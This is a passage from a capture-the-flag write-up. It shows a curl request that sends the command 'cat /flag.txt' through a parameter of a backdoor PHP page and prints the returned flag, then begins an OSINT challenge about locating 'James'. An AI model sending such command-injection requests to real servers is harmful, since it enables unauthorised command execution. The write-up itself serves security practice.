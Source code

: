 Oh! An obvious `flag.txt` file! 

```bash
❯ curl 'http://example.com:10101/s3cr3t_3ntr4nce.php?c0mm=cat%20%2Fflag.txt'
flag{m4rcus_f0rg0t_t0_change_perm_env_and_igot_shell}
```

Printing the contents, we get our flag, `flag{m4rcus_f0rg0t_t0_change_perm_env_and_igot_shell}`

## Talkies Talk

>We just know that the person is named **James**, and a **Picture** of the last place he was. Can you find him?

<center>